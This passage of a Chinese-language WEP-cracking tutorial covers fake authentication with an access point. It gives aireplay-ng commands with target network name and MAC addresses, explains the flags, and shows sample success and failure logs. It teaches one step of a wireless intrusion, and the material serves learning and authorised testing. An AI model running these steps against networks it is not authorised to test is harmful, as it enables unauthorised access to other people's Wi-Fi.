 # 第四阶段-执行假身份验证

让这个过程正常工作的下一步是通过接入点进行身份验证。这一点很重要，因为如果我们在没有关联的情况下执行数据包注入，并且接入点存在，则该过程将失败，连接将被拒绝。事实上，如果注入的源 MAC 地址没有关联，目标 API 将忽略该数据包，并以明文形式发送一个反验证数据包以拒绝连接尝试。发生这种情况时，不会创建新的 IVs，因为 AP 会忽略所有注入的数据包。

您用于注入的 MAC 必须通过使用假身份验证或使用已关联客户端的 MAC 与 AP 关联。

为了将客户端与接入点关联，我们将使用假身份验证：

```
aireplay-ng -1 0 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0
```

*   `-1`表示假认证
*   `0`重新关联计时（秒）
*   `-e`ganon 是无线网络名称
*   `-a 00:14:6C:7E:40:80`是接入点 MAC 地址
*   `-h 00:0F:B5:88:AC:82`是我们的卡 MAC 地址

成功看起来像：

```
18:18:20  Sending Authentication Request 
18:18:20  Authentication successful 
18:18:20  Sending Association Request 
18:18:20  Association successful :-) 
```

或其他针对挑剔接入点的变体：

```
aireplay-ng -1 6000 -o 1 -q 10 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0
```

*   `6000`：每`6000`秒重新验证一次。长周期还导致发送保持活动的数据包。
*   `-o 1`：一次只发送一组数据包。默认值为多个，这会混淆某些 AP。
*   `-q 10`：每`10`秒发送一次活动数据包。

成功看起来像：

```
18:22:32  Sending Authentication Request 
18:22:32  Authentication successful 
18:22:32  Sending Association Request 
18:22:32  Association successful :-) 
18:22:42  Sending keep-alive packet 
18:22:52  Sending keep-alive packet 
# and so on. 
```

但是，如果身份验证失败，将导致以下结果：

```
18:28:02  Sending Authentication Request 
18:28:02  Authentication successful 
18:28:02  Sending Association Request 
18:28:02  Association successful :-) 
18:28:02  Got a deauthentication packet! 
18:28:05  Sending Authentication Request 
18:28:05  Authentication successful 
18:28:05  Sending Association Request 
18:28:10  Sending Authentication Request 
18:28:10  Authentication successful 
18:28:10  Sending Association Request 
```
